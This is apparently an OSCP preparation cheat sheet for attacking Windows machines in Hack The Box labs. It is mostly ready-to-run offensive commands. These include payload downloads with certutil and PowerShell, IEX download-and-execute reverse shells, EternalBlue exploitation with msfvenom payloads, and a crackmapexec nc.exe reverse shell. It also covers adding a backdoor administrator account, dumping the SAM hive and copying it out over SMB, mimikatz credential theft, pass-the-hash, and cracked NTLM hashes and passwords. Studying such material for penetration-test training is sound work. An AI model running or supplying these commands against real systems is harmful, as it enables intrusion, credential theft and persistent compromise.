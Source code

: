 # OSCP Cheat Sheets Windows
Preparation for OSCP

## RECON

#### Fireall
```Shell
netsh advfirewall firewall add rule name="SMB" protocol=TCP dir=in localport=445 action=allow
netsh advfirewall firewall add rule name="SMB" protocol=TCP dir=out localport=445 action=allow
```


#### SMB
```Shell
nmap -Pn -sT -n --script smb-enum-shares.nse  10.10.10.40 -p 135,139,445
```
```Shell
smbclient -L 10.10.10.40 -N 
smbclient //10.10.10.40/Users -N
smbclient -L 10.10.10.125 -N 2>/dev/null | grep "Disk" | awk '{print $1}' | while read shared; do echo "${shared} - "; smbclient -N //10.10.10.125/${shared} -c 'dir'; echo; done 
```
```Shell
smbmap -H 10.10.10.40 -u ''
```
```Shell
mkdir smbFolder
mount -t cifs //10.10.10.40/Users /tmp/smbFolder -o username=null,password=null,domain=WORKGROUP,rw
```
```Shell
smbcacls //10.10.10.40/Users Admin/Desktop -N
smbcacls //10.10.10.40/Users Admin/Desktop -N | grep Everyone
```

#### Transer file

```Shell
root@kali:/OSCPv3/htb/Optimum# python -m SimpleHTTPServer 80
PS C:\Users\kostas\Desktop> certutil.exe -f -urlcache -split http://10.10.14.2/bfill.exe bfill.exe
```
```Shell
root@kali:/OSCPv3/htb/Optimum# python -m SimpleHTTPServer 80
C:\Users\kostas\Desktop>powershell -c "(New-Object Net.WebClient).DownloadFile('http://10.10.14.2/bfill.exe','C:\Users\kostas\Desktop\bfill-2.exe')"
```
```Shell
root@kali:/OSCPv3/htb/Optimum# python -m SimpleHTTPServer 80
powershell Invoke-WebRequest "http://10.10.14.2/bfill.exe" -OutFile "C:\Users\kostas\Desktop\bfill-3.exe"
```
```Shell
root@kali:/OSCPv3/htb/Optimum# impacket-smbserver folder $(pwd)
copy \\10.10.14.2\folder\bfill.exe C:\Users\kostas\Desktop\exploit.exe

#C:\Users\kostas\Desktop>powershell -c "New-PSDrive -Name 'SharedFolder' -PSProvider 'FileSystem' -Root '\\10.10.14.2\folder'"
#C:\Users\kostas\Desktop>copy SharedFolder:\bfill.exe C:\Users\kostas\Desktop\exploit.exe
```


## Vulnerability Discovery

```Shell
nmap -Pn -sT -n --script "vuln and safe" 10.10.10.40 -p 135,139,445
```

```Shell
searchsploit eternalblue
searchsploit -x 42315
searchsploit -m 42315
```

## Explotation


#### SQL
```Shell
sqsh -S 10.10.10.125 -U 'sa'
```
```Shell
sqsh -S 10.10.10.125 -U 'sa'
```
/usr/share/doc/python-impacket/examples/mssqlclient.py WORKGROUP/reporting:PcwTWTHRwryjc\$c6@10.10.10.125 -db volume  -windows-auth

#### Shells
```Shell
root@kali:/OSCPv3/htb/Optimum# python -m SimpleHTTPServer 80
10.10.10.8 - - [12/Jan/2022 21:58:35] "GET /Invoke-PowerShellTcp.ps1 HTTP/1.1" 200 -
```
```Shell
C:\Users\kostas\Desktop>start /b C:\windows\SysNative\WindowsPowershell\v1.0\powershell.exe IEX (New-Object Net.WebClient).DownloadString('http://10.10.14.2/Invoke-PowerShellTcp.ps1');Invoke-PowerShellTcp -Reverse -IPAddress 10.10.14.2 -Port 443
C:\windows\SysNative\WindowsPowershell\v1.0\powershell.exe IEX (New-Object Net.WebClient).DownloadString('http://10.10.14.2/Invoke-PowerShellTcp.ps1');Invoke-PowerShellTcp -Reverse -IPAddress 10.10.14.2 -Port 443
```
```Shell
PS C:\> [Environment]::Is64BitOperatingSystem
PS C:\> [Environment]::Is64BitProcess
```

#### Crack
#Pwd NetNTLM
```Shell
root@kali:/OSCPv3/htb/Optimum# cat hash 
kostas::OPTIMUM:4141414141414141:cb75e848816d72f0887c979360a94c8d:01010000000000008049ffc23c08d801d13ac8046c9c0773000000000100100062004f0056006c004c006300560043000200100053005100730044004600540044004f000300100062004f0056006c004c006300560043000400100053005100730044004600540044004f00070008008049ffc23c08d80106000400020000000800300030000000000000000000000000200000427ee1a135839f2e7cdb03560c68c4af3fd234632cc4c0ce7480b21dc9de2fb40a0010000000000000000000000000000000000009001e0063006900660073002f00310030002e00310030002e00310034002e003200000000000000000000000000
```
```Shell
root@kali:/OSCPv3/htb/Optimum# john --wordlist=pwd.txt hash_impacket_smb 
Using default input encoding: UTF-8
Loaded 1 password hash (netntlmv2, NTLMv2 C/R [MD4 HMAC-MD5 32/32])
Press 'q' or Ctrl-C to abort, almost any other key for status
kdeEjDowkS*      (kostas)
1g 0:00:00:00 DONE (2022-01-12 23:21) 100.0g/s 100.0p/s 100.0c/s 100.0C/s kdeEjDowkS*
Use the "--show" option to display all of the cracked passwords reliably
Session completed
```


#### Eternalblue
```Shell
wget https://github.com/offensive-security/exploitdb-bin-sploits/raw/master/bin-sploits/42315.py -O mysmb.py
python 42315.py 10.10.10.40
```

```Shell
msfvenom -p windows/x64/shell_reverse_tcp -f exe -o exploit.exe EXITFUNC=thread LHOST=10.10.14.28 LPORT=4444
python 42315.py 10.10.10.40 samr exploit.exe 
```

```Shell
git clone https://github.com/3ndG4me/AutoBlue-MS17-010.git
python eternal_checker.py 10.10.10.40

./shell_prep.sh 
python eternalblue_exploit7.py 10.10.10.40 sc_x64.bin 

msfvenom -p windows/x64/shell_reverse_tcp -f raw -o sc_x64_msf.bin EXITFUNC=thread LHOST=10.10.14.28 LPORT=4444
python eternalblue_exploit7.py 10.10.10.40 sc_x64_msf.bin
```



## Post Explotation

#### Windows Users
```Shell
net users
net user admin admin /add
net localgroup administrators
net localgroup administrators admin /add
net localgroup "Remote Desktop Users" admin /add
```

#### Crackmapexec
```Shell
crackmapexec smb 10.10.10.40 -u 'admin' -p 'admin' cmd /c reg add HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Policies\System /v LocalAccountTokenFilterPolicy /t REG_DWORD /d 1 /f
crackmapexec smb 10.10.10.40 -u 'admin' -p 'admin' -x 'whoami'
crackmapexec smb 10.10.10.40 -u 'admin' -p 'admin' --sam
crackmapexec smb 10.10.10.40 -u 'Administrator' -H cdf51b162460b7d5bc898f493751a0cc -x 'whoami'
crackmapexec smb 10.10.10.40 -u 'Administrator' -H cdf51b162460b7d5bc898f493751a0cc -M mimikatz -o COMMAND="privilege::debug token::elevate sekurlsa::logonpasswords exit"
crackmapexec smb 10.10.10.40 -u 'admin' -p 'kdeEjDowkS*' -x '\\10.10.14.2\smbfolder\nc.exe -e cmd 10.10.14.2 4444'
```

#### Windows SAM
```Shell
reg save HKLM\SAM sam.backup
reg save HKLM\SYSTEM system.backup

impacket-smbserver smbfolder $(pwd)
copy sam.backup \\10.10.14.28\smbfolder\sam
copy system.backup \\10.10.14.28\smbfolder\system

pwdump system sam 
```

#### Windows psexec
```Shell
#reg add HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Policies\System /v LocalAccountTokenFilterPolicy /t REG_DWORD /d 1 /f
#user with admin priv
python /opt/impacket/examples/psexec.py WORKGROUP/admin:admin\@10.10.10.40 cmd.exe
python /usr/share/doc/python-impacket/examples/psexec.py WORKGROUP/kostas:kdeEjDowkS*@10.10.10.8 cmd.exe
```

#### Pass-The-Hash
```Shell
pth-winexe -U WORKGROUP/Administrator%aad3b435b51404eeaad3b435b51404ee:d90b270062e8b9f118ab8e0f733df391 //10.10.10.8 cmd.exe
```

## Priv
https://github.com/SecWiki/windows-kernel-exploits

#PowerUp.ps1
```Shell
PS C:\Users\kostas\Desktop> IEX (New-Object Net.WebClient).DownloadString('http://10.10.14.2/PowerUp.ps1');Invoke-AllChecks;
```
#Wesng
https://github.com/bitsadmin/wesng
```Shell
root@kali:/OSCPv3/htb/Optimum# python /opt/wesng/wes.py systeminfo.txt
root@kali:/OSCPv3/htb/Optimum# python /opt/wesng/wes.py systeminfo.txt -i "Elevation Privilege"
```

#Windows-Exploit-Suggester
https://github.com/AonCyberLabs/Windows-Exploit-Suggester
```Shell
root@kali:/OSCPv3/htb/Optimum# python windows-exploit-suggester.py --update
root@kali:/OSCPv3/htb/Optimum# python windows-exploit-suggester.py --database 2022-01-12-mssb.xls  --systeminfo systeminfo.txt
```

#### MS16-098 - CVE-2016-3309 - Microsoft Windows 8.1 (x64) - 'RGNOBJ' Integer Overflow
https://github.com/SecWiki/windows-kernel-exploits/blob/master/MS16-098/bfill.exe

#### MS16-032 - CVE-2016-0099 - Microsoft Windows 7 < 10 / 2008 < 2012 R2 (x86/x64)
https://github.com/SecWiki/windows-kernel-exploits/tree/master/MS16-032

